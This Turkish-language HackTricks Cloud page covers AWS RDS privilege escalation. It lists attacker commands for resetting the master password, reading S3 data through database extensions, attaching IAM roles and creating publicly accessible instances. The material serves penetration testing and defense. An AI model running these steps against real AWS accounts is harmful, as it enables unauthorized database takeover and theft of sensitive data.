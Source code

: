 # AWS - RDS Privesc

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**'i takip edin.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}

## RDS - İlişkisel Veritabanı Servisi

RDS hakkında daha fazla bilgi için kontrol edin:

{% content-ref url="../aws-services/aws-relational-database-rds-enum.md" %}
[aws-relational-database-rds-enum.md](../aws-services/aws-relational-database-rds-enum.md)
{% endcontent-ref %}

### `rds:ModifyDBInstance`

Bu izinle bir saldırgan **ana kullanıcının şifresini değiştirebilir** ve veritabanı içindeki oturumu değiştirebilir:
```bash
# Get the DB username, db name and address
aws rds describe-db-instances

# Modify the password and wait a couple of minutes
aws rds modify-db-instance \
--db-instance-identifier <db-id> \
--master-user-password 'Llaody2f6.123' \
--apply-immediately

# In case of postgres
psql postgresql://<username>:<pass>@<rds-dns>:5432/<db-name>
```
{% hint style="warning" %}
Veritabanına **ulaşabilmeniz** gerekecek (genellikle yalnızca iç ağlardan erişilebilirler).
{% endhint %}

**Olası Etki:** Veritabanlarında hassas bilgileri bulmak.

### rds-db:connect

[**belgelere**](https://docs.aws.amazon.com/AmazonRDS/latest/UserGuide/UsingWithRDS.IAMDBAuth.IAMPolicy.html) göre, bu izne sahip bir kullanıcı DB örneğine bağlanabilir.

### RDS Rolü IAM izinlerini kötüye kullanma

#### Postgresql (Aurora)

{% hint style="success" %}
**`SELECT datname FROM pg_database;`** komutunu çalıştırdığınızda **`rdsadmin`** adında bir veritabanı bulursanız, bir **AWS postgresql veritabanası** içinde olduğunuzu bilirsiniz.
{% endhint %}

Öncelikle bu veritabanının başka bir AWS hizmetine erişim için kullanılıp kullanılmadığını kontrol edebilirsiniz. Bunu, kurulu uzantılara bakarak kontrol edebilirsiniz:
```sql
SELECT * FROM pg_extension;
```
Eğer **`aws_s3`** gibi bir şey bulursanız, bu veritabanının **S3 üzerinde bir tür erişime sahip olduğunu** varsayabilirsiniz (diğer uzantılar **`aws_ml`** ve **`aws_lambda`** gibi).

Ayrıca, **`aws rds describe-db-clusters`** komutunu çalıştırma izinleriniz varsa, **`AssociatedRoles`** alanında **kümenin herhangi bir IAM Rolü ile ilişkilendirilip ilişkilendirilmediğini** görebilirsiniz. Varsa, veritabanının **diğer AWS hizmetlerine erişim için hazırlandığını** varsayabilirsiniz. **Rolün adı** (veya rolün **izinlerini** alabiliyorsanız) temelinde, veritabanının ne tür ek erişime sahip olduğunu **tahmin edebilirsiniz**.

Artık, **bir bucket içindeki bir dosyayı okumak için** tam yolu bilmeniz gerekiyor. Bunu şu şekilde okuyabilirsiniz:
```sql
// Create table
CREATE TABLE ttemp (col TEXT);

// Create s3 uri
SELECT aws_commons.create_s3_uri(
'test1234567890678', // Name of the bucket
'data.csv',          // Name of the file
'eu-west-1'          //region of the bucket
) AS s3_uri \gset

// Load file contents in table
SELECT aws_s3.table_import_from_s3('ttemp', '', '(format text)',:'s3_uri');

// Get info
SELECT * from ttemp;

// Delete table
DROP TABLE ttemp;
```
Eğer **ham AWS kimlik bilgilerine** sahip olsaydınız, bunları S3 verilerine erişmek için de kullanabilirdiniz:
```sql
SELECT aws_s3.table_import_from_s3(
't', '', '(format csv)',
:'s3_uri',
aws_commons.create_aws_credentials('sample_access_key', 'sample_secret_key', '')
);
```
{% hint style="info" %}
Postgresql **S3'e erişebilmek için herhangi bir parametre grubu değişkenini değiştirmeye ihtiyaç duymaz**.
{% endhint %}

#### Mysql (Aurora)

{% hint style="success" %}
Bir mysql içinde **`SELECT User, Host FROM mysql.user;`** sorgusunu çalıştırdığınızda ve **`rdsadmin`** adında bir kullanıcı varsa, **AWS RDS mysql db** içinde olduğunuzu varsayabilirsiniz.
{% endhint %}

Mysql içinde **`show variables;`** komutunu çalıştırın ve **`aws_default_s3_role`**, **`aurora_load_from_s3_role`**, **`aurora_select_into_s3_role`** gibi değişkenlerin değerleri varsa, veritabanasının S3 verilerine erişmeye hazır olduğunu varsayabilirsiniz.

Ayrıca, **`aws rds describe-db-clusters`** komutunu çalıştırma izniniz varsa, kümenin herhangi bir **ilişkili rolü** olup olmadığını kontrol edebilirsiniz; bu genellikle AWS hizmetlerine erişim anlamına gelir.

Artık, **bir bucket içindeki bir dosyayı okumak için** tam yolu bilmeniz gerekiyor. Bunu şu şekilde okuyabilirsiniz:
```sql
CREATE TABLE ttemp (col TEXT);
LOAD DATA FROM S3 's3://mybucket/data.txt' INTO TABLE ttemp(col);
SELECT * FROM ttemp;
DROP TABLE ttemp;
```
### `rds:AddRoleToDBCluster`, `iam:PassRole`

`rds:AddRoleToDBCluster` ve `iam:PassRole` izinlerine sahip bir saldırgan, **mevcut bir RDS örneğine belirli bir rol ekleyebilir**. Bu, saldırgana **hassas verilere erişim sağlama** veya örnekteki verileri değiştirme imkanı verebilir.
```bash
aws add-role-to-db-cluster --db-cluster-identifier <value> --role-arn <value>
```
**Potansiyel Etki**: RDS örneğindeki hassas verilere erişim veya verilere yetkisiz değişiklikler.\
Bazı veritabanlarının, parametre gruplarında rol ARN'sinin belirtilmesi gibi ek yapılandırmalara ihtiyaç duyduğunu unutmayın, örneğin Mysql.

### `rds:CreateDBInstance`

Bu izinle bir saldırgan, zaten var olan ve bir **IAM rolü** eklenmiş bir **küme içinde yeni bir örnek** oluşturabilir. Ana kullanıcı şifresini değiştiremeyecek, ancak yeni veritabanı örneğini internete açma olasılığı olabilir:
```bash
aws --region eu-west-1 --profile none-priv rds create-db-instance \
--db-instance-identifier mydbinstance2 \
--db-instance-class db.t3.medium \
--engine aurora-postgresql \
--db-cluster-identifier database-1 \
--db-security-groups "string" \
--publicly-accessible
```
### `rds:CreateDBInstance`, `iam:PassRole`

{% hint style="info" %}
TODO: Test
{% endhint %}

`rds:CreateDBInstance` ve `iam:PassRole` izinlerine sahip bir saldırgan, **belirtilen bir rol ile yeni bir RDS örneği oluşturabilir**. Saldırgan daha sonra potansiyel olarak **hassas verilere erişebilir** veya örnekteki verileri değiştirebilir.

{% hint style="warning" %}
Eklemek için rol/örnek profili ile ilgili bazı gereksinimler ( [**buradan**](https://docs.aws.amazon.com/cli/latest/reference/rds/create-db-instance.html) ):

* Profil hesabınızda mevcut olmalıdır.
* Profilin, Amazon EC2'nin üstlenme iznine sahip olduğu bir IAM rolü olmalıdır.
* Örnek profil adı ve ilişkili IAM rol adı `AWSRDSCustom` ön eki ile başlamalıdır.
{% endhint %}

{% code overflow="wrap" %}
```bash
aws rds create-db-instance --db-instance-identifier malicious-instance --db-instance-class db.t2.micro --engine mysql --allocated-storage 20 --master-username admin --master-user-password mypassword --db-name mydatabase --vapc-security-group-ids sg-12345678 --db-subnet-group-name mydbsubnetgroup --enable-iam-database-authentication --custom-iam-instance-profile arn:aws:iam::123456789012:role/MyRDSEnabledRole
```
{% endcode %}

**Olası Etki**: RDS örneğindeki hassas verilere erişim veya verilere yetkisiz değişiklikler.

### `rds:AddRoleToDBInstance`, `iam:PassRole`

`rds:AddRoleToDBInstance` ve `iam:PassRole` izinlerine sahip bir saldırgan, **mevcut bir RDS örneğine belirli bir rol ekleyebilir**. Bu, saldırgana **hassas verilere erişim** sağlama veya örnekteki verileri değiştirme imkanı verebilir.

{% hint style="warning" %}
DB örneği, bunun için bir kümenin dışında olmalıdır
{% endhint %}

{% code overflow="wrap" %}
```bash
aws rds add-role-to-db-instance --db-instance-identifier target-instance --role-arn arn:aws:iam::123456789012:role/MyRDSEnabledRole --feature-name <feat-name>
```
{% endcode %}

**Potansiyel Etki**: RDS örneğindeki hassas verilere erişim veya verilere yetkisiz değişiklikler.

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Eğitim AWS Kırmızı Takım Uzmanı (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Eğitim GCP Kırmızı Takım Uzmanı (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**'i takip edin.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}
